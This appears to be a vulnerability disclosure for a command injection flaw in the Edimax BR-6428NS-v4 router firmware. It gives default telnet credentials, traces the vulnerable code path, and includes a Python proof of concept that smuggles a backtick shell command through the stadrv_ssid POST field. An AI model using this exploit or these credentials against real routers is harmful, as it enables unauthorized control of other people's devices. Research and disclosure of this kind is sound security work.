



# Command Injection

Command execution directly on the router via HTTP POST requests.

## Device Information

**Device**: Edimax Wireless Router BR-6428NS-v4

**Firmware Version**: BR-6428NS_v4_1.10

**Firmware Download Link**: https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v4

**Emulation Environment**: ubuntu-18.04.6-desktop-amd64 + [FirmAE](https://github.com/pr0v3rbs/FirmAE) + python-3.6.9

**Emulation Command**:

```shell
sudo ./run.sh -r Edimax ~/Desktop/BR-6428NS_v4_1.10.zip
```



**Router Homepage**:



**Telnet**:

Username and Password: root/edimaxens


**Vulnerability Location**: In the firmware package, the squashfs-root system's /bin/webs ELF file, within the wlgetHiddenSSIDinfo function, which is called by the formStaDrvSetup function.

## Cause of the Vulnerability

The wlgetHiddenSSIDinfo function accepts parameters that are unvalidated and controlled by HTTP Post requests. System commands can be directly executed using backticks **`**.



The formStaDrvSetup function receives the stadrv_type parameter. If stadrv_type is not equal, it enters the if logic.


If stadrv_band is not 0, it enters a second layer of if logic, and if stadrv_chan equals 19, it enters the command injection logic. Finally, the command is injected through the stadrv_ssid parameter.


## PoC

```python
import requests

command = "touch /var/fanxiaoyao"
url = "http://192.168.2.1/goform/formStaDrvSetup"
data = {
    "stadrv_type":1,
    "stadrv_band":1,
    "stadrv_chan":19,
    "stadrv_ssid":f"`{command}`"
}

r = requests.post(url,data=data)
#print(r.text)
```

**Verification Result**:

